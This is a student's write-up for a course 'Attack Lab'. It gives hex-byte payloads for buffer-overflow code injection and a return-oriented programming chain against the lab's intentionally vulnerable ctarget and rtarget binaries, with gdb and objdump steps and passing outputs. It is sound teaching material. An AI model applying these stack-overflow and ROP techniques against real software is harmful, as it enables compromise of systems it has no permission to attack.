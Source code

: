 CSCI 3160 Attack Lab Writeup
Jacob Hebert, Target 417

# Phase 1
We completed the first phase as a class, this involved finding the correct memory address to exploit and sending a string the same size as the buffer to corrupt it. Doing this would corrupt the stack and crash the program. We achieved this by looking at the assembly dump of the file and determining not only the correct address, but also the correct size for the attack string. We did this by examining the `touch1` function and the `getbuf` function, both of which provided enough information for us to make the attack. My buffer was 0x18 or 24 bytes in size, so I filled the buffer with 24 bytes of zeros and completed the first phase.

# Phase 3
Phase 2 required us to inject some code into the program by overflowing the buffer and setting the program to a specific point in the code, into touch2. We then had to figure out the kind of injection needed. The first thing I did, after writing phase1’s section was realize that the buffer overflow was the same for all phases requiring ctarget, since that’s the only input that we have in the program. I created the level2 file and pasted the buffer overflow bytes  in, and picked a spot in `touch2` to start from, and I got a “Misfire!”. At least I was in the right spot!

Cookie: 0x23f306d5

Type string:Misfire: You called touch2(0x00406520)

I started by trying to follow the hints, which led me to find assembly code to inject the cookie right before the return statement in the `getbuf` function, then using the next part of the injection to put the code in the right address space for touch2 to take over. I realized quickly that I was getting nowhere with the assembly injection because I wasn’t able to get the program to run without immediately seg faulting. So I rethought my ideas and tried to reformat my attack file to actually follow the hints. 
The first part of phase 2 took me about 2 hours to realize I hit a dead end.

My friend Deep gave me some insight on how to actually complete this part of the lab, which was really simple in hindsight:

    1. Find the return address of getbuf
    2. Find the return address of touch2
    3. Inject code in the buffer to alter the value of %rdi

The cookie was the value to inject, and a movq asm command made the most sense, so
    `movq $0x23f306d5, %rdi`

I needed to translate this from text to the binary form, so running
    `as ctarget_l2_inject.s -o ctarget_l2_inject.o`
generated the needed output, which when objdumped gave:
    `48 c7 c7 d5 06 f3 23`
    `c3` is retq in asm, so that would be at the 8th byte.


    (gdb) until *0x401daa
    gdb) x/s $rsp
    (Address of register) 0x5551fa10:

Injection script:
> ```C
>/* Injection string */
>/* First 8 bytes are movq to rsi, rest to overflow getbuf */
>
>48 c7 c7 d5 06 f3 23 c3
>00 00 00 00 00 00 00 00
>00 00 00 00 00 00 00 00
>
>
>/* 0x5551fa10 = ret addr for getbuf */
>10 fa 51 55 00 00 00 00
>
>
>
>/* Address of touch2 */
>f4 1d 40 00 00 00 00 00
>```

At first the injection caused a seg fault, but it was likely caused by comments, because shortly after, I ran it again and it passed
    ```bash
        ./hex2raw < ctarget.lv2 | ./ctarget
        Cookie: 0x23f306d5
        Type string:Touch2!: You called touch2(0x23f306d5)
        Valid solution for level 2 with target ctarget
        PASS

    ```


# Phase 3

I needed to pass the cookie as a string -- so I need to translate the hex cookie to a set of ascii characters


1. We need to inject the cookie into the return address of touch3

Need to use a movq instruction to move the location of the cookie to the register at the time needed
Add 0x28 to account for buffer and size of rsp and touch3. 0x18 for the buffer, 0x8 for rsp, and 0x8 for touch3.

The new memory address is: 0x5551fa10 + 0x28 = **0x5551fa38**. This gets injected in the first line of the buffer overflow.


2. add the return address for getbuf
    `10 fa 51 55 00 00 00 00`

3. ret address for touch3
    `11 1f 40 00 00 00 00 00`

4. Translate hex to ASCII
    `32 33 66 33 30 36 64 35 00` *plus an extra byte of zeroes*

    Script:

>    ```c
>   /* movq cookie location -> rdi and retq */
>   /* 10 fa 51 55 */
>   /* 0x5551fa10 + 0x28 = 0x5551fa38 */
>
>
>   48 c7 c7 38 fa 51 55 c3
>   00 00 00 00 00 00 00 00
>   00 00 00 00 00 00 00 00
>
>   /* retaddr of getbuf */
>   10 fa 51 55 00 00 00 00
>
>   /* retaddr of touch3 */
>   /* 0x401f11          */
>
>   11 1f 40 00 00 00 00 00
>
>   /* Hex translation of cookie */
>   32 33 66 33 30 36 64 35 00

    ```

```bash
    Cookie: 0x23f306d5
    Type string:Touch3!: You called touch3("23f306d5")
    Valid solution for level 3 with target ctarget
    PASS
    ```
With Deep's help, this took me about half an hour to complete.


# Phase 4

ROP is hard...
The first thing I did was find the gadget farm in the address space.
```bash
    objdump -d rtarget | sed -n '/start_farm/,/end_farm/p' >> farm.dump
```
This finds the entire codespace from the start to the end of the farm

Using the farm, I made some grep statements to find the patterns that I needed for execution

    /* popq %rdi , 5f */
    /* popq %rax, 58 -> setval_269 */
    /* c4 = c7, 2 more places is 58 */

I started with these, I grepped to a spot that would have 5f or 58, for me, setval_269 had the value I needed,
it was located at c4, but 2 bytes into the address, so I had to add 2 to my inject, starting at c6.
That popped %rax from the stack.

I used that to put the cookie on the stack.

    /* movq rdi rax */
    /* cat farm.dump | grep -E "48 89 .. c3"  */
I didn't know the exact 3rd byte to look for, so I used extended regex to find it somewhere in the farm, which resulted in:
    ```bash
         401fcf:       b8 48 89 c7 c3          mov    $0xc3c78948,%eax
    ```
The start of the string I wanted was one byte in, so I added 1 to the address, making my address: `d0 1f 40 00 00 00 00 00`

The last thing was to inject the return address of touch2, which was already in ctarget.lv2, so I just copy/pasted that.

ROP Attack:

>   /* Cookie: 0x23f306d5 */
>
>   /* Fill buffer to 24 bytes */
>
>   00 00 00 00 00 00 00 00
>   00 00 00 00 00 00 00 00
>   00 00 00 00 00 00 00 00
>   /* popq %rdi , 5f */
>   /* popq %rax, 58 -> setval_269 */
>   /* c4 = c7, 2 more places is 58 */
>   c6 1f 40 00 00 00 00 00
>
>   /* cookie */
>   d5 06 f3 23 00 00 00 00
>
>   /* movq rdi rax */
>   /* cat farm.dump | grep -E "48 89 .. c3"  */
>
>   /* 401fcf:       b8 48 89 c7 c3          mov    $0xc3c78948,%eax */
>
>   d0 1f 40 00 00 00 00 00
>
>   /* Ret addr of touch2 */
>
>   f4 1d 40 00 00 00 00 00



```bash
    Cookie: 0x23f306d5
    Type string:Touch2!: You called touch2(0x23f306d5)
    Valid solution for level 2 with target rtarget
    PASS


    ```


Deep helped me significantly with this lab. Without him, I would not have been able to get to phase 4.
